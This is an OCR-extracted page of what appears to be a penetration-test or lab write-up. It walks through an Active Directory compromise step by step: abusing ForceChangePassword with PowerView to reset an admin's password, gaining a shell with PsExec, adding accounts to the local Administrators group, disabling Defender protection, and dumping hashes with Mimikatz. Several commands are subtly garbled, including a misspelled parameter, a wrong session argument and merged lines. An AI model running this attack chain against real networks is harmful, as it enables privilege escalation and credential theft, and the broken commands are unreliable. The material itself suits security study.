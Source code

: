 ## Steps to compromise
After successfully compromising UATSRV, we acquired the ntlm hash and clear text password for 
batchuser. Looking at the bloodhound database for batchuser, we see the first degree object control 
has an ACL to ForceChangePassword against the prodadmin user.
This means batchuser has the capability to change the user prodadmin’s password without knowing that 
user’s current password. To accomplish this we will load PowerView5 and run the function SetDomainUserPassword . The following commands were run to set the password for prodadmin to 
‘Password1!’ using the credentials of batchuser.
```
Import-Module .\PowerView_dev.ps1
$SecPassword = ConvertTo-SecureString '[strings]' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\batchuser', $SecPassword)
$UserPassword = ConvertTo-SecureString 'Password1!' -AsPlainText -Force Set-DomainUserPassword -Identity prodadmin -AccountPassword $UserPassword -Crendential $Cred
```
Once again, we use crackmapexec to verify the credentials work
```
crackmapexec -u [user] -p [pass] -d [domain] [ip] --shares
```
Since we can write to C$, we can use PsExec to get a shell on PRODSRV
```
PsExec64. \\[instance] -u GARRISON\prodadmin -p 
Password1! cmd
```
Now that we have a shell, we can add our user to the Local Administrators and Remote Desktop Users 
group to use PSRemoting to run powershell functions easier
```
net localgroup Administrators ad /add
net localgroup "Remote Desktop Users" ad /add
```
We use Mimikatz to dump the credentials on PRODSRV, by locally loading a function in our PSSession, 
but first disabling IOAVProtection.
```
$sess = New-PSSession -ComputerName [computername]
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection 
$true} -Session $sess
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Session $true
```
We successfully got the NTLM hash for the serviceacct user
